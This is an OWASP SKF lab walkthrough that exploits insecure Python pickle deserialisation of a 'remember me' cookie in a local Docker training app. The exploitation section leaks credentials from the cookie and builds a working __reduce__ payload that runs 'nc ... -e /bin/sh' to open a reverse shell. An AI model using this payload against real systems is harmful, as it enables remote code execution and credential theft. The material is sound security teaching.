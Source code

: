 # Deserialisation Pickle - 2

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle-2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and register a new user

![](../../.gitbook/assets/python/DES-Pickle-2/1.png)

![](../../.gitbook/assets/python/DES-Pickle-2/2.png)

Please note that (for convenience) your password will be reset if the user already exists. Also note that the username and password are case sensitive.

Now that we have valid credentials, we can login:

![](../../.gitbook/assets/python/DES-Pickle-2/3.png)

You can check the 'remember me' checkbox if you want to login next time without providing credentials.

After providing the correct credentials we're logged in:

![](../../.gitbook/assets/python/DES-Pickle-2/4.png)

To logout, use the link/button in the upper right corner.

The goal is to find where the application uses serialization and create your own serialized object to spawn a reverse shell.

## Exploitation

Once we've successfully logged in using the rememberme checkbox, we can return to the login screen any time and login just by clicking the 'Submit Button' without providing credentials:

![](../../.gitbook/assets/python/DES-Pickle-2/5.png)

This results in the following request and response:

![](../../.gitbook/assets/python/DES-Pickle-2/6.png)

This works because we received a rememberme cookie during our initial login:

![](../../.gitbook/assets/python/DES-Pickle-2/7.png)

As you might have guessed, the remember me cookie is a serialized object, (probably containing your credentials) which will be deserialised and verified, once you submit the login form. This functionality provides you an easy login without entering credentials, but it is not without risk ! If we can deserialise it, the credentials will be leaked. In addition, we can create our own object that that will be deserialized and instantiated if we submit it to the webserver.

If we know or guess the used technology (in this case:pickle serialisation in python), we can try to deserialise the object

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

```python
import pickle, base64
b64 = 'gASVQAAAAAAAAACMCF9fbWFpbl9flIwDdXNylJOUKYGUfZQojAh1c2VybmFtZZSMBHVzZXKUjAhwYXNzd29yZJSMBHVzZXKUdWIu'
print(pickle.loads(base64.b64decode(b64)).__class__)
```

This shows us the object is an instance of the usr class. So we can enumerate the properties of the object as follows:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gASVQAAAAAAAAACMCF9fbWFpbl9flIwDdXNylJOUKYGUfZQojAh1c2VybmFtZZSMBHVzZXKUjAhwYXNzd29yZJSMBHVzZXKUdWIu'
a = pickle.loads(base64.b64decode(b64))
print(dir(a))
```

The dir() function returns all properties and methods of the specified object, without the values. This function will return all the properties and methods, even built-in properties which are default for all object.

```
This will output the following:
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'password', 'username']
```

The attributes we were looking for are 'password' and 'username'

Putting it all toghther:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gASVQAAAAAAAAACMCF9fbWFpbl9flIwDdXNylJOUKYGUfZQojAh1c2VybmFtZZSMBHVzZXKUjAhwYXNzd29yZJSMBHVzZXKUdWIu'
a = pickle.loads(base64.b64decode(b64))
print(a.username)
print(a.password)
```

Although the above was nice to understand what serialization comprehends, we still need to exploit the vulnerability ;-)

To exploit the vulnerability we'll create an object that runs a system command to start a reverse shell. After instanciating the object, we serialize it and base64 encode it. This output will be our payload.

```python
import pickle, base64,os

class skf(object):
  def __reduce__(self):
    return (os.system,("nc -nv 127.0.0.1 1234 -e /bin/sh",))

a = skf()
ser = pickle.dumps(a)
print (base64.b64encode(ser))
```

_Note: If Netcat (nc) program is not available, change the argument passed at os.system call to sleep(5)._

This will yield the following output:

```
gANjcG9zaXgKc3lzdGVtCnEAWCAAAABuYyAtbnYgMTI3LjAuMC4xIDEyMzQgLWUgL2Jpbi9zaHEBhXECUnEDLg==
```

Now we prepare a net cat listner on our machine, ready to receive the reverse shell:

![](../../.gitbook/assets/python/DES-Pickle-2/8.png)

We can submit our malicious payload in Burp Suite Repeater by replacing the cookie value with the one we generated above:
![](../../.gitbook/assets/python/DES-Pickle-2/9.png)

A revers shell is is connected:
![](../../.gitbook/assets/python/DES-Pickle-2/10.png)

## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" %}
